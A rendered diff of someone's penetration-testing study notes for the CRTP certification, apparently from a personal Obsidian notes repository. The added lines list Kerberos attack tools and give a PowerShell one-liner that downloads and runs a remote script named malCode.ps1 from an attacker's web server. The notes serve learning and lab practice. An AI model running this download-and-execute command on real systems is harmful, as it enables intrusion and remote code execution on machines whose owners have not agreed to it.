

Before and after one commit to GalalHamoudy/obsidian, a Markdown page: Penetration Testing/CRTP/Powershell.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
2025-07-26 17:14:07: ...

````diff
--- a/Penetration Testing/CRTP/Powershell.md
+++ b/Penetration Testing/CRTP/Powershell.md
@@ -9,6 +9,8 @@ Ps> `powershell -ExecutionPolicy bypass`
 ---
 [-] shortcuts
 ctrl + L > clean
+
+[-] put your tools in `/var/www/html` and run `service apache2 start`
 
 ---
 
@@ -438,3 +440,18 @@ Defending Against Active Directory Enumeration
 - https://gallery.technet.microsoft.com/Net-Cease-Blocking-Net-1e8dcb5b
 - After Downloading NetCease.ps1 run it on the DC .\NetCease.ps1 Then restart server service by typing (Restart-Service -Name Server -Force) now no user can query Get-NetSession
 - To disable NetCease type (.\NetCease.ps1 -Revert) Then restart server service by typing (Restart-Service -Name Server -Force)
+---
+
+Tools :
+/usr/share/doc/python3-impacket/examples/GetNPUsers.py
+
+rubeus.exe
+
+k> kerbrute
+
+
+at `/var/www/html` we run `service apache2 start` to make kali ip like website
+then use :
+``` Powershell
+iex (new-Object Net.WebClient).DownloadString('https://192.168.152.12/malCode.ps1')
+```
````
